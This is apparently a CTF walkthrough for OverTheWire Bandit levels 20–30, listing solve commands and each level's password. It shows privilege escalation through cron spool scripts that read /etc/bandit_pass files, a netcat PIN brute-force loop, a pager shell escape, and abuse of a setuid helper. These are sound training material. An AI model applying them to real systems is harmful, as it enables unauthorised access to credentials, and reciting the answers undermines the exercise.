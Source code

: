 
## Level 20 -> 21
### Look -> ssh, nc, cat, bash, screen, tmux, Unix ‘job control’ (bg, fg, jobs, &, CTRL-Z, …)
#### Solve
```bash
echo -n 'GbKksEFF4yrVs6il55v6gwY5aVje5f0j' | nc -l -p 1234 &
./suconnect 1234
```
**password**: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

## Level 21 -> 22
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**password**: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

## Level 22 -> 23
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/ #(write echo's result)
```
**password**: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Level 23 -> 24
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
mkdir /tmp/bnd
cd /tmp/bnd
vim bandit_pass.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/bnd/password
chmod 777 bandit_pass.sh
touch password
chmod 777 password
chmod 777 .
cp bandit_pass.sh /var/spooll/bandit24/foo
cat password
# you need to wait for a minute and read the password file
```
**password**: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 24 -> 25
### Look -> Bash Script
#### Solve
```bash
mkdir /tmp/brutforce
cd /tmp/brutforce
vim bandit_pass.sh
	#!/bin/bash
	touch password
	for i in {1000..9999};
	do
	        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"              
	done | nc localhost 30002 > password
	cat password | grep -v "wrong"
chmod +rwx bandit_pass.sh
./bandit_pass.sh
```
**password**: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 25 -> 26
### Look -> ssh, cat, more, vi, ls, id, pwd
#### Solve
- Read
	- https://www.geeksforgeeks.org/more-command-in-linux-with-examples/
```bash
ssh -i bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org
#(you have to resize your window until see more command)
#understand how more command works
	:set shell=/bin/bash
	:sh
```
**password**: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

## Level 26 -> 27
### Look ->  ls
#### Solve
- look bandit27-do permissions and understand what should you do!
	- IT'S SO EASY DON'T BE LAZY
```bash
ls -la
./bandit27-do cat /etc/bandit_pass/bandit27
```
**password**: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB


## Level 27 -> 28
### Look ->  git
#### Solve
```bash
mkdir /tmp/bandit_27git
cd /tmp/bandit_27git
git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
cd repo
cat README
```
**password**: Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN


## Level 28 -> 29
### Look ->  git
#### Solve
- look git show and log commands
```bash
mkdir /tmp/bandit_28git
cd /tmp/bandit_28git
git clone ssh://bandit28-git@localhost:2220/home/bandit28-git/repo
cd repo
git log
git show 674690a00a0056ab96048f7317b9ec20c057c06b
```
**password**: 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7

## Level 29 -> 30
### Look ->  git, git show
#### Solve
- look git show and log commands
```bash
mkdir /tmp/bandit_29git
cd /tmp/bandit_29git
git clone ssh://bandit29-git@localhost:2220/home/bandit29-git/repo
cd repo
git show origin/dev
```
**password**: qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL